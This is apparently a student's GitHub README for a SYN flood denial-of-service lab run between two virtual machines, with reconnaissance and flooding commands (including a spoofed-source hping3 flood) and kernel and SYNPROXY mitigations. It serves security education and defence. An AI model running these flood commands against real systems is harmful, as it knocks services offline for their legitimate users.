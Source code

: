 # SYN Flood Attack Simulation Lab

This project demonstrates a **SYN Flood Denial-of-Service (DoS) attack** in a controlled lab environment, inspired by the real-world incident faced by WebStream Corp. The lab simulates how a SYN flood disrupts availability and explores kernel- and firewall-level mitigations.

## 🖥 Lab Setup
- **Attacker**: Kali Linux VM (VirtualBox)
- **Victim**: Ubuntu Server 22.04 VM (VirtualBox)
- **Network**: Tailscale VPN for private connectivity
- **Services**: Apache2 web server hosting a looping video test page

![Lab Diagram](diagrams/syn_flood_detailed_diagram.png)

## ⚡ Attack Overview
- A normal TCP handshake requires SYN → SYN/ACK → ACK.
- In a SYN flood:
  - Attacker sends a large number of SYN packets.
  - Victim replies with SYN/ACK, but never receives the final ACK.
  - Victim’s connection backlog fills with half-open sessions.
  - Legitimate clients cannot connect — **denial of service**.

## 🔬 Attack Demonstration
1. **Reconnaissance**: 
   ```bash
   nmap -sS <victim-ip>
   ```
2. **Flooding (non-spoofed)**:
   ```bash
   sudo hping3 -S --flood -p 80 <victim-ip>
   ```
3. **Flooding (spoofed)**:
   ```bash
   sudo hping3 -S --flood --rand-source -p 80 <victim-ip>
   ```
4. **Monitoring** (victim side):
   ```bash
   ss -ant state syn-recv
   ```

## 📸 Screenshots
- Baseline server state
- Victim under SYN flood (`SYN_RECV` backlog)
- Video stream freezing during attack
- Video restored after mitigation

(See `/screenshots/` folder)

## 🛡 Mitigations Tested
- Kernel defenses:
  ```bash
  sysctl -w net.ipv4.tcp_syncookies=1
  sysctl -w net.ipv4.tcp_max_syn_backlog=4096
  sysctl -w net.ipv4.tcp_synack_retries=3
  ```
- iptables rate limiting (partial effectiveness)
- **SYNPROXY** (best defense in lab)
  ```bash
  sudo modprobe nf_synproxy_core xt_SYNPROXY
  sudo iptables -A INPUT -p tcp --syn -m conntrack --ctstate NEW \
       -j SYNPROXY --sack-perm --timestamp --wscale 7 --mss 1460
  ```

## 🎯 Key Learnings
- SYN floods directly threaten **Availability** (CIA triad).
- Spoofed floods are harder to trace/mitigate than non-spoofed floods.
- Simple iptables rules are insufficient — kernel tuning and SYNPROXY were effective.
- Real-world defenses often require **DDoS scrubbing services** or specialized appliances.

## 📚 References
- NIST SP 800-115: Technical Guide to Information Security Testing
- Oriyano & Solomon, *Hacker Techniques, Tools, and Incident Handling*
- CSUDH CYB 552 – Advanced Hacking Prevention

---

⚠️ **Disclaimer**  
This project was performed strictly in an isolated lab with my own VMs. Never attempt SYN flooding outside a controlled, authorized environment.
